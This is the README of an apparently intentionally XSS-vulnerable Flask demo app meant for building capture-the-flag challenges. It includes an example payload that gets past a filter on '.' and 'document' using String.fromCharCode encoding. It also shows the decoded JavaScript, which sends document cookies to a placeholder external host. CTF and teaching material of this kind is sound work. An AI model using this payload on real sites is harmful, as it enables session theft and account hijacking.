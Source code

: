 ## XSS demo app

This is a demo flask app vulnerable to XSS attack
with chrome headless checker. It may be useful in creation of CTF challenges.

In this application "." and "document" are filtered, so possible payload may be:
```
"><script>eval(String['fromCharCode'](102,101,116,...))</script>
where encoded in ascii query is something like:
fetch('https://our.domain.pipedream.net/?c=' + document['cookie'])
```

### Deployment
Guide for installation, configuration and running is available [here](DEPLOY.md)

### TODO
Plans for project improvement can be found [here](https://www.youtube.com/watch?v=dQw4w9WgXcQ) <br>
Issues and PR's are welcome!
